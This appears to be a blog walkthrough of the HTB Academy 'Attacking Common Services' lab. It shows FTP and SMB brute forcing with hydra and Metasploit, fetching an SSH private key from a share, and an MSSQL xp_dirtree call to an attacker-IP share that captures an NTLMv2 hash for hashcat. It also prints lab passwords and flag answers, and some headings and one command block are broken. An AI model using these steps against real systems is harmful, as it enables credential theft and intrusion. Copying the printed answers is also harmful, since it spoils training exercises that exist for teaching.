Welcome to **Part 10** of our comprehensive, production-grade masterclass covering the **Hack The Box (HTB) Academy Certified Penetration Testing Specialist (CPTS)** curriculum. Rather than providing superficial slide summaries, this series deconstructs offensive tradecraft from foundational network discovery and vulnerability verification to complex lateral movement, active directory exploitation, and post-exploitation tradecraft — complete with terminal command flows, verified lab flags, and defensive engineering countermeasures.

In this installment, we conduct an exhaustive technical deep-dive into **Attacking Common Services** (Tier II • Medium • Offensive). We break down the underlying mechanics of exploiting common network infrastructure services including SMB, FTP, SSH, RDP, MySQL, MSSQL, Oracle TNS, and DNS, dissect hands-on offensive vectors, analyze realistic defensive telemetry, and walk through every exercise step-by-step with 100% verified solutions.

<div class="ff-series-nav"><a href="/posts/htb-academy-part-9-file-inclusion/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 9: File Inclusion (LFI/RFI) Exploitation & Defense</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 10 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-11-attacking-common-applications/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 11: Attacking Common Applications (Tomcat, Jenkins, Splunk)</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>

## Module Specifications & Target Architecture

| Attribute | Specification |
| :--- | :--- |
| **Module Name** | `Attacking Common Services` |
| **Official HTB Academy Track** | [https://academy.hackthebox.com/module/116](https://academy.hackthebox.com/module/116) |
| **Curriculum Tier & Difficulty** | `Tier II` • `Medium` |
| **Certification Pathway** | `HTB Certified Penetration Testing Specialist (CPTS)` (Part 10 of 41) |
| **Author & Technical Attribution** | `Abdulrahman M. Fathi (0x3bdo)` |
| **Lab Flag Verification** | `100% Fully Solved & Validated` |

## Key Technical Takeaways

* **SMB Exploitation**: Harvests sensitive documents, writes payloads to accessible shares, and executes remote commands via PsExec and Impacket.
* **Database Attacks**: Interrogates MySQL and MSSQL servers, abuses `xp_cmdshell` for command execution, and extracts password hashes.
* **Remote Management Vectors**: Bypasses SSH key restrictions, audits RDP security levels, and captures NTLM authentication handshakes.
* **Protocol Misconfigurations**: Exploits anonymous FTP uploads, DNS zone transfers, and exposed Oracle TNS listener procedures.
* **Privilege Escalation Paths**: Converts compromised service accounts into full operating system administrative access.

## Executive Summary & Assessment Scope

Enterprise networks rely on a suite of common infrastructure services for file sharing, database storage, and remote administration. When these daemons are improperly configured, vulnerable to credential reuse, or running unpatched software versions, they represent prime targets for initial compromise and lateral movement.

This module deconstructs offensive techniques targeting SMB, FTP, SSH, RDP, MySQL, and MSSQL. We walk through credential attacks, command execution primitives, share manipulation, and database exploitation, validating every exercise with complete flag solutions.

---

## Comprehensive Lab Walkthrough & Flag Solutions


### Attacking Common Services

#### Technical Methodology & Exploit Execution:

```bash
wget <link to zip>
```

and then extract the zip using the command:
```bash
unzip <downloaded zip>
```


### Attacking FTP

> **Lab Question (Page 2)**: What port is the FTP service running on?
>
> **Flag / Answer**: `2121`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

lets run nmap on the targat machine:
```bash
nmap <target-IP>
```


We can see on port 2121 the ftp proxy service.

Question: What username is available for the FTP server?
Answer: robin
Method: lets initiate more thorough nmap scan on the found port 2121, using
the command:
```bash
nmap -sC -sV -p 2121 <target-IP>
```


*_Figure 2.1 — Lab execution and output verification (Page 2)_*


### Lets do that

#### Technical Methodology & Exploit Execution:

get users.list
get passwords.list


*_Figure 3.1 — Lab execution and output verification (Page 3)_*


*_Figure 3.2 — Lab execution and output verification (Page 3)_*


### we will use 'hydra', using the command

#### Technical Methodology & Exploit Execution:

```bash
hydra -L users.list -P passwords.list ftp://<target-IP>:2121
```
-t 48


The bruteforce found the credentials 'robin:7iz4rnckjsduza7'


*_Figure 4.1 — Lab execution and output verification (Page 4)_*


*_Figure 4.2 — Lab execution and output verification (Page 4)_*


### to the target machine

> **Lab Question (Page 5)**: Use the discovered username with its password to login via SSH and obtain the flag.txt file. Submit the contents as your answer.
>
> **Flag / Answer**: `HTB{ATT4CK1NG_F7P_53RV1C3}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

lets use the credentials obtained in the previous question to ssh login
to the target machine:
```bash
ssh robin@<target-IP>
```
then enter the password:

*
*

Then we will find the flag in the present working directory:


*_Figure 5.1 — Lab execution and output verification (Page 5)_*


*_Figure 5.2 — Lab execution and output verification (Page 5)_*


*_Figure 5.3 — Lab execution and output verification (Page 5)_*


### Attacking SMB

> **Lab Question (Page 6)**: What is the name of the shared folder with READ permissions?
>
> **Flag / Answer**: `GGJ`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

Method 1: we can use crackmapexec to get a list of shares, anonymously. We
will use the command:
```bash
crackmapexec smb <target-IP> --shares -u '' -p ''
```


*
*

There is the share 'GGJ' which has read permissions for any user.

Method 2: We can also use smbmap
smbmap -H <target-IP>


*_Figure 6.1 — Lab execution and output verification (Page 6)_*


*_Figure 6.2 — Lab execution and output verification (Page 6)_*


*_Figure 6.3 — Lab execution and output verification (Page 6)_*


### Metasploit

> **Lab Question (Page 7)**: What is the password for the username "jason"?
>
> **Flag / Answer**: `34c8zuNBo91!@28Bszh`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will use the default password list to brute force 'jason' username
on the SMB service.
We will download the password list and extract the downloaded zip to a output
file called 'pws.list.
Then we will bruteforce the SMB service, on 'jason' username using
Metasploit:
```bash
msfconsole
```
to open Metasploit console, and in it we run the following settings:
```bash
use auxiliary/scanner/smb/smb_login
set SMBUser jason
set pass_file pws.list
set rhosts <target-IP>
set VERBOSE false
set STOP_ON_SUCCESS true
```
and when all is set:
run


*_Figure 7.1 — Lab execution and output verification (Page 7)_*


### failure

> **Lab Question (Page 8)**: Login as the user "jason" via SSH and find the flag.txt file. Submit the contents as your answer.
>
> **Flag / Answer**: `HTB{SMB_4TT4CKS_2349872359}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

attempting to ssh with Jason username and password will result in
failure:

The ssh requires a private key.
Now, during the previous question I first attempted to obtain the password via
the SMB GGJ share, with anonymous login, and there was there 'id_rsa' but
there was no download permissions.
Lets try to access the share again, this time with 'jason' credentials – we can
```bash
use 'smbclient' to download the file using 1 command:
smbclient //10.129.130.196/GGJ -U jason -c 'get id_rsa
```
id_rsa'
and we enter the obtained password:


Lets give the 'id_rsa' chmod 600 (only file's owner can read it), and then
reattempt to ssh login:
```bash
chmod 600 id_rsa
ssh -i id_rsa jason@<target-IP>
```


*_Figure 8.1 — Lab execution and output verification (Page 8)_*


*_Figure 8.2 — Lab execution and output verification (Page 8)_*


### lets obtain the flag

we are in.
lets obtain the flag:


*_Figure 9.1 — Lab execution and output verification (Page 9)_*


*_Figure 9.2 — Lab execution and output verification (Page 9)_*


### Attacking SQL Databases

> **Lab Question (Page 10)**: What is the password for the "mssqlsvc" user?
>
> **Flag / Answer**: `princess1`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will begin with nmap scan to see with what we are dealing with:
```bash
nmap -sV <target-IP>
```


It is a windows machine, running mssql on port 1433.
Lets login to the mssql service with the provided credentials from the section
'htbdbuser:MSSQLAccess01!':
mssqlclient.py -p 1433 htbdbuser@10.129.203.12
then enter the password:


*_Figure 10.1 — Lab execution and output verification (Page 10)_*


*_Figure 10.2 — Lab execution and output verification (Page 10)_*


### them will result with 'access denied'

We are in. lets see what non-default databases we are dealing with here:
SELECT name FROM sys.databases WHERE name NOT IN ('master',
'tempdb', 'model', 'msdb', 'resource');


There are 2 databses – 'hmaildb' and 'flagDB', attempting to open either of
them will result with 'access denied':

So in order to open them, we need to find 'mssqlsvc' credentials.
Attempting to enable 'xp_cmdshell' won't work – our default user does not
have the access to do so. So we will have to do something else.

On the pwnbox – lets start 'responder' on the interface linked to the target
machine – 'tun0':
```bash
sudo responder -I tun0
```


*_Figure 11.1 — Lab execution and output verification (Page 11)_*


*_Figure 11.2 — Lab execution and output verification (Page 11)_*


#### Technical Methodology & Exploit Execution:

xp_dirtree '\\<attacker-IP>\share\'
and while on the mssql CLI we wont get anything seems to be meaningful:


On the responder – we will capture the NTLMv2 hash of 'mssqlsvc':


*_Figure 12.1 — Lab execution and output verification (Page 12)_*


*_Figure 12.2 — Lab execution and output verification (Page 12)_*


*_Figure 12.3 — Lab execution and output verification (Page 12)_*


### hash using hashcat

We obtained NTLMv2 hash, we will put that in a file called 'hash.txt':
```bash
echo 'mssqlsvc::WIN-02-4c....00' > hash.txt
```

We need to crack it.
Lets get to the pwnbox the rockyou.txt wordlist, and run the bruteforce on the
hash using hashcat:
```bash
hashcat -m 5600 hash.txt rockyou.txt
```
where -m 5600 is for NTLMv2 hash:

*
*


*_Figure 13.1 — Lab execution and output verification (Page 13)_*


*_Figure 13.2 — Lab execution and output verification (Page 13)_*


*_Figure 13.3 — Lab execution and output verification (Page 13)_*


### same way we did with 'htbdbuser'

> **Lab Question (Page 14)**: Enumerate the "flagDB" database and submit a flag as your answer.
>
> **Flag / Answer**: `HTB{!_l0v3_#4$#!n9_4nd_r3$p0nd3r}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

lets attempt to login to the MSSQL service to 'mssqlsvc' user in the
same way we did with 'htbdbuser':
mssqlclient.py -p 1433 mssqlsvc@<target-IP>
we enter the obtained 'princess1' password..

We get 'Encryption required', and failed login.

To solve it, we will add the '-windows-auth' flag to the login command:
mssqlclient.py -p 1433 mssqlsvc@<target-IP> -windows-auth


We are in.

Lets use the 'flagDB' database we failed to access in the previous question:
```bash
USE flagDB;
```

